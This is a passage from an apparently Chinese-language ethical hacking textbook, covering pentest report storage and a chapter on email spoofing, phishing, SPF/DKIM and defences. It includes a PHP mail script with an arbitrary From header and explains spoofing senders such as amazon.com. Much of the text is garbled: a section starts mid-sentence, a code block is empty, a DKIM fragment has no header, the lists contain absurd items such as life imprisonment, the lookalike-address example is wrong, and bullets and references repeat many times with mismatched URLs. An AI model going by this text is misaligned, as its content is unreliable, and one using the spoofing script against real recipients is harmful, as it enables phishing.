其他情况下，管理层可能不想要演示，只需交付报告。在这种情况下，请确保报告内容正确、打印得当，并能够向管理层展示。有时可能会要求提供报告的电子版和纸质版。应对对创建的所有副本进行计数，并记录下谁拥有报告的副本。渗透测试报告包含大量信息，如果落入错误的人手中将是灾难性的。因此，必须对每份报告副本的归属进行管理。

## 报告与证据的存储

某些组织希望道德黑客团队保留一份渗透测试活动报告副本。如果是这样，道德黑客团队在保存报告时需要特别小心。最低预期是使用某种加密来保护报告，如果将加密文件存储在离线位置，将增加另一层安全性。

其他组织可能要求删除报告。道德团队在咨询法律团队后应执行此操作，因为根据渗透测试报告中遗漏或未涵盖的内容，道德黑客可能会面临法律后果。如果法律顾问指定可以删除报告，请确保存储报告的磁盘已多次格式化并用其他数据覆盖。至少由两人验证数据删除也是一种良好的做法，这被称为双人原则（two-people integrity）。

对系统进行渗透测试非常有益，并将帮助系统所有者生产更高质量的系统和软件。将发现结果和报告发送给正确的人至关重要。报告的结果必须能够记录漏洞和纠正措施，并帮助系统所有者采取行动，使整个组织更加安全。

# 第九章

## 邮件攻击

邮件攻击并不是道德黑客领域的大部分，但它是普通人每天最容易落入的攻击类型。邮件攻击主要由黑帽客执行，但作为一名白帽客或道德黑客，关于邮件攻击的知识将帮助你教育组织的员工如何预防邮件攻击。我们认为包含一个关于邮件攻击的章节是非常重要的。

### 邮件是如何工作的？

由其电子邮件提供商提供，并希望为较新的邮件留出空间。因此，他们使用 `POP3` 定期将邮件从电子邮件服务器下载到本地机器上，这样电子邮件服务器的磁盘就可以释放空间。`POP3` 协议使用不带 `SSL` 的端口号 `110` 以及带 `SSL` 的端口号 `995`。

### IMAP

`IMAP`（或互联网消息传访问协议）是一种类似于 `POP3` 的功能，用于从电子邮件服务器将邮件检索到本地邮件客户端。然而，它与 `POP3` 的不同在于，`IMAP` 可以保持邮件服务器和邮件客户端之间的邮件同步。在使用 `IMAP` 协议时，邮件服务器账户中的邮件和客户端中的邮件是彼此的镜像。这意味着用户在服务器上执行的任何操作都会反映在邮件客户端中，反之亦然。`IMAP` 协议使用不带 `SSL` 的端口号 `143` 以及带 `SSL` 的端口号 `993`。

## 电子邮件安全

电子邮件是今天世界上最快的通信手段之一，但它的安全性如何？攻击者有一系列可以通过电子邮件实施的攻击。攻击者已经掌握了所有可能用于邮件媒介的技巧，并针对那些不该遭受此类攻击且会落入他们陷阱的无辜者。教育组织的员工不要成为电子邮件攻击的容易目标是非常重要的。一个组织的安全性也取决于其最脆弱的环节，有时，一个毫无意识的员工可能会成为组织安全中最脆弱的环节。

有时人们觉得邮件被黑了没关系，因为邮件不包含任何关键信息。这种态度需要改变，因为邮件一旦被黑客，黑客就可以利用它向你邮件账户中的所有联系人发送误导性邮件。接收者会认为邮件来自你，并向黑客泄露本应属于你和联系人之间私密的信息。通常，黑客破解邮箱 ID 并不是为了数据，而是为了盗取身份进一步用于恶意活动。你可能听过这样的案例：某人收到一封来自朋友邮箱 ID 的带链接邮件，他们被重定向到攻击者的网站并在那里下载了恶意软件。

## 电子邮件伪造

如前所述，电子邮件伪造（Email Spoofing）是对邮件头进行操纵，使邮件看起来像来自真实来源，即使它实际上来自恶意来源。垃圾邮件者通常利用邮件伪造来让毫无防备的接收者打开他们的邮件，甚至回复他们的请求。伪造最危险的部分是，存在合法的手段可以伪造邮件。使用一个你甚至不知道密码的 FROM 地址。互联网是一个脆弱的地方，确实有可能通过伪造一个不属于你的邮箱 ID 向某人发送威胁性或恶意的邮件。

## 电子邮件伪造方法

有许多伪造邮件的方法，但让我们讨论两种最常用的方法。

### 开放中继服务器 `Open Relay Server`

开放中继服务器是一台运行着简单邮件传输协议（`SMTP`）的服务器，其配置方式使得任何人都可以发送邮件，而不一定必须是该服务器上的现有用户。这意味着未知用户也可以通过它发送邮件。攻击者可以使用 `telnet` 连接到开放中继服务器，并输入一组指令通过它发送邮件。通过开放中继服务器发送邮件不需要密码验证。

### 邮件脚本 `Email Scripts`

第二种最流行的伪造邮件方法是通过邮件脚本。邮件脚本最初开发用于发送真实的邮件，但攻击者很快发现邮件脚本不需要密码验证，它也可以用于邮件伪造。攻击者只需从从托管提供商处获取一个网络托管服务，并设置邮件脚本以根据其需求修改邮件头。许多托管提供商已经意识到这可能导致其服务器声誉受损，并开始对其托管服务器实施限制：邮件脚本中的 FROM 地址必须与网络托管包的域名匹配，而不能是任何其他域名。

让我们来看一个 PHP 邮件发送脚本的示例。

```php
```


# PHP 邮件脚本示例

```php
<?

$mailto="some-name@yourdomain.com";

$pcount=0;

$gcount=0;

$subject = "Mail from Enquiry Form";

$from="some-name@abc.com";

while (list($key,$val)=each ($_POST)) {

    $pstr = $pstr."$key :$val \n \n";

    $pcount++;

}

while (list($key,$val)=each ($_GET)) {

    $gstr = $gstr."$key :$val \n \n";

    $gcount++;

}

if ($pcount > $gcount) {

    $message_body=$pstr;

    mail($mailto,$subject,$message_body,"From:".$from);

    echo "Mail has been sent";

}

else

{

    $message_body=$gstr;

    mail($mailto,$subject,$message_body,"From:".$from);

    echo "Mail has been sent";

}

?>
```

如果你查看这个 PHP 邮件脚本，你会发现它具有以下参数，这些参数本质上是邮件头最重要的部分。

- `mailto`
- `from`
- `subject`
- `message_body`

攻击者只需将此脚本作为 PHP 文件托管在网络托管服务器上，并将这些参数替换为他们选择的参数以发送邮件。为了给你一个概念，他们可以使用头部信息 `info@amazon.com` 的 `from` 参数，接收者会认为他们收到了一封来自 `amazon.com` 的真实邮件。

## 接收伪造邮件的后果

如果接收者认真对待伪造邮件，可能会导致：

- 你的账户被破解。重置你的密码！
- 你的个人信息被破解。
- 你的银行账户被破解。
- 终身监禁。
- 离婚。
- 辞职。
- 资金损失。

## 识别伪造邮件

每封邮件的头都包含了邮件在进入你的收件箱之前经过的路径。也有更简单的方法来识别伪造邮件。以下标记应该引起你的警觉，并让你知道邮件是伪造的。如果邮件的主题匹配以下内容：

- 你的账户被破解。
- 你的个人信息被破解。
- 你的银行账户被破解。

或者如果邮件要求你提供如下类型的信息：

- 待付款项。
- 访问链接以重置密码。
- 一个你从未查看过的职位的招聘网站。

```
b=n0p3627rwiCw+KXuL61+nFd4dMd4w5PJMma6a/YsvxPSme2PfuLy
4S4hMzPyKwqSOAx/Sj/w5S6Cu8/EtzFHG5jMf5DdjNGZoth7b0NBe
atQJobyC3DmdGje3sgUMSBSfPuk60eqBT1SOUbb8kkCdn3gVtJ5t
5WILWXTJobAudAUJW5Uh4np39fjK7snsnsgj4NCLtcfkf0nIPHHbSm
CVr9V/vbq1Vh5QgXAWIZFtKqvOuoh0E3CtqRwTuAzO8Lu20GYwvfp
UfuQ==
```


此标头包含两个邮件服务器用于识别入站邮件真实性的参数。

## Received-SPF

`SPF` 记录是一种基于 `TXT` 的 `DNS` 记录，由电子邮件提供者提供并添加到域名的 `DNS` 区域中。`SPF` 记录语法包含了允许代表该域名发送电子邮件的 `IP` 地址。

在上面的示例中，当 `gmail.com` 分析入站邮件时，它会检查发送者域名的 `SPF` 记录，并发现 `IP` `209.85.220.69` 被允许代表域名发送邮件。如果入站邮件的源 `IP` 是其他值，`gmail.com` 将把邮件分类为垃圾邮件。

## DKIM-Signature

`DKIM` 签名是另一个参数，包含一个公开的密钥，发送者域名使用该密钥进行签名。当 `gmail.com` 接收入站邮件时，它会向发送者服务器发送请求，将此密钥与源服务器上相应的域名密钥进行匹配。如果密钥匹配，则认为邮件是真实的。

## 邮件钓鱼

邮件钓鱼（`Email Phishing`）是指向某人发送邮件，谎称是某人并诱骗他们披露敏感信息，如个人详情或银行账户详情。本质上，邮件钓鱼是邮件伪造（`email spoofing`）产物。攻击者会给您发送邮件；他们可能通过操纵邮件头使其看起来像合法来源。或者，如果他们不擅长黑客攻击，会尝试从与合法邮件地址非常相似的邮件地址发送邮件。例如，他们会创建一个类似 `info@citibank.com` 的邮件地址。乍一看，这像是花旗银行的真实邮件地址，但如果你仔细观察，发现里面有两个 `I`。如果你不非常小心，可能会点击攻击者在邮件正文中植入恶意链接，该链接将您重定向到一个要求您输入银行详情的网站。然而，该网站是攻击者开发的虚假网站，仅用于窃取您的信息。

## 钓鱼诈骗

一些最常见的钓鱼邮件长什么样？钓鱼邮件的内容大多是承诺您将获得某些大好处。攻击者利用目标有多么轻信，这一点得以在钓鱼诈骗中获得成功。

在 2000 年初，来自非洲的攻击者向用户发送了大量邮件，声称自己是某个富有的人，且在临终之际想将财富分送给普通人。金额可能高达 `100,000` 美元。轻信的收件者会上当并回复这些邮件，期望赚点快钱。然而，随着过程进行，攻击者会要求获胜者支付少额资金，用于将奖金转账到用户的银行账户。这可能是 `100` 美元之类的金额，用户会将这笔钱发送给攻击者，但再也听不到他们的任何消息。

## 防御钓鱼

您可以采取一些基本的预防措施保护自己免受钓鱼诈骗的影响。

- 确保仔细阅读邮件并双检邮件发送者。如果发送者是认识的朋友，但邮件看起来有点奇怪，请致电给他们，确认他们是否给您发送过此类邮件。
- 如果邮件包含链接，在点击之前仔细检查该链接。
- 如果您以某种方式点击了链接并进入了一个要求您输入登录详情的网站，请检查浏览器中的 `URL` 以确认它是否确实是。

## 您的邮件安全

- 如果邮件包含链接，在点击之前仔细检查该链接。
- 如果您以某种方式点击了链接并进入了一个要求您输入登录详情的网站，请检查浏览器中的 `URL` 以确认它是否确实是。
- 确保仔细阅读邮件并双检邮件发送者。如果发送者是认识的朋友，但邮件看起来有点奇怪，请致电给他们，确认他们是否给您发送过此类邮件。
- 然而，随着过程进行，攻击者会要求获胜者支付少额资金，用于将奖金转账到用户的银行账户。
- 如果邮件包含链接，在点击之前仔细检查该链接。
- 如果您以某种方式点击了链接并进入了一个要求您输入登录详情的网站，请检查浏览器中的 `URL` 以确认它是否确实是。
- 确保仔细阅读邮件并双检邮件发送者。如果发送者是认识的朋友，但邮件看起来有点奇怪，请致电给他们，确认他们是否给您发送过此类邮件。
- 如果邮件包含链接，在点击之前仔细检查该链接。
- 如果您以某种方式点击了链接并进入了一个要求您输入登录详情的网站，请检查浏览器中的 `URL` 以确认它是否确实是。
- 确保仔细阅读邮件并双检邮件发送者。如果发送者是认识的朋友，但邮件看起来有点奇怪，请致电给他们，确认他们是否给您发送过此类邮件。
- 如果邮件包含链接，在点击之前仔细检查该链接。
- 如果您以某种方式点击了链接并进入了一个要求您输入登录详情的网站，请检查浏览器中的 `URL` 以确认它是否确实是。
- 确保仔细阅读邮件并双检邮件发送者。如果发送者是认识的朋友，但邮件看起来有点奇怪，请致电给他们，确认他们是否给您发送过此类邮件。
- 如果邮件包含链接，在点击之前仔细检查该链接。
- 如果您以某种方式点击了链接并进入了一个要求您输入登录详情的网站，请检查浏览器中的 `URL` 以确认它是否确实是。

## 结论

我诚心地希望您喜欢这本书并且它对您有所帮助。这本书的目标不是让您成为专家，而是让您对我们讨论的话题有一个坚实的理解。学习无止境，希望您能继续探索这些领域。感谢阅读。

- [8] Lazari, C. (2019). 道德渗透侦察计划：被动足迹探测 - Chris Lazari。获取自 https://chrislazari.com/ethical-hacking-passive-footprinting/
- [9] Lazari, C. (2019). 道德渗透侦察计划：被动足迹探测 - Chris Lazari。获取自 https://chrislazari.com/ethical-hacking-passive-footprinting/
- [10] Lazari, C. (2019). 道德渗透侦察计划：被动足迹探测 - Chris Lazari。获取自 https://chrislazari.com/ethical-hacking-passive-footprinting/
- [11] Lazari, C. (2019). 道德渗透侦察计划：被动足迹探测 - Chris Lazari。获取自 https://chrislazari.com/ethical-hacking-passive-footprinting/
- [12] Lazari, C. (2019). 道德渗透侦察计划：被动足迹探测 - Chris Lazari。获取自 https://chrislazari.com/ethical-hacking-passive-footprinting/
- [13] Lazari, C. (2019). 道德渗透侦察计划：被动足迹探测 - Chris Lazari。获取自 https://chrislazari.com/ethical-hacking-passive-footprinting/
- [14] 足迹探测与侦察 | 足迹探测与侦察之……。(2019)。获取自 http://www.keyfora.com/search/footprinting-and-reconnaissance
- [15] 道德渗透指纹识别。(2019)。获取自 https://www.tutorialpoint.com/ethical_hacking/ethical_hacking_fingerprinting
- [16] 道德渗透嗅探。(2019)。获取自 https://www.tutorialpoint.com/ethical_hacking/ethical_hacking_sniffing
- [17] 道德渗透 ARP 污染。(2019)。获取自 https://www.tutorialpoint.com/ethical_hacking/ethical_hacking_arp_poisoning
- [18] 道德渗透 ARP 污染。(2019)。获取自 https://www.tutorialpoint.com/ethical_hacking/ethical_hacking_arp_poisoning
- [19] 道德渗透 ARP 污染。(2019)。获取自 https://www.tutorialpoint.com/ethical_hacking/ethical_hacking_arp_poisoning
- [20] 道德渗透 ARP 污染。(2019)。获取自 https://www.tutorialpoint.com/ethical_hacking/ethical_hacking_arp_poisoning
- [21] 道德渗透 ARP 污染。(2019)。获取自 https://www.tutorialpoint.com/ethical_hacking/ethical_hacking_arp_poisoning
- [22] 道德渗透 ARP 污染。(2019)。获取自 https://www.tutorialpoint.com/ethical_hacking/ethical_hacking_arp_poisoning
- [23] 道德渗透 ARP 污染。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_arp_poisoning.htm
- [24] 道德渗透 DNS 污染。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_dns_poisoning.htm
- [25] 道德渗透 DNS 污染。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_dns_poisoning.htm
- [26] 道德渗透 DNS 污染。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_dns_poisoning.htm
- [27] 道德渗透漏洞利用。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_dns_poisoning.htm
- [28] 道德渗透漏洞利用。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_exploitation.htm
- [29] 道德渗透漏洞利用。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_exploitation.htm
- [30] 道德渗透漏洞利用。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_exploitation.htm
- [31] 道德渗透漏洞利用。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_exploitation.htm
- [32] 道德渗透漏洞利用。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_exploitation.htm
- [33] 道德渗透枚举。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_enumeration.htm
- [34] 道德渗透枚举。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_enumeration.htm
- [35] 道德渗透枚举。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_enumeration.htm
- [36] 道德渗透 Metasploit。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_metasploit.htm
- [37] 道德渗透 Metasploit。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_metasploit.htm
- [38] 道德渗透 Metasploit。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_metasploit.htm
- [39] 道德渗透 Metasploit。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_metasploit.htm
- [40] 道德渗透 Metasploit。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_metasploit.htm
- [41] 道德渗透 Metasploit。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_metasploit.htm
- [42] 道德渗透 Metasploit。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_metasploit.htm
- [43] 道德渗透 Metasploit。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_metasploit.htm
- [44] 道德渗透 Metasploit。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_metasploit.htm
- [45] 道德渗透 TCP/IP 污染。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_metasploit.htm
- [46] 道德渗透 TCP/IP 污染。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_tcp_poisoning
- [47] 道德渗透 TCP/IP 污染。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_tcp_poisoning
- [48] 道德渗透 TCP/IP 污染。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_tcp_poisoning
- [49] 道德渗透邮件劫持。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_email_hijing
- [50] 道德渗透邮件劫持。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_email_hijing
- [51] 道德渗透邮件劫持。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_email_hijing
- [52] 道德渗透无线劫持。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_wireless
- [53] 道德渗透无线劫持。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_wireless
- [54] 道德渗透无线劫持。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_wireless
- [55] 道德渗透无线劫持。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_wireless
- [56] 道德渗透无线劫持。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_wireless
- [57] 道德渗透无线劫持。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_wireless
- [58] 道德渗透无线劫持。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_wireless
- [59] 道德渗透无线劫持。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_wireless
- [60] 道德渗透无线劫持。(2019)。获取自 https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_wireless
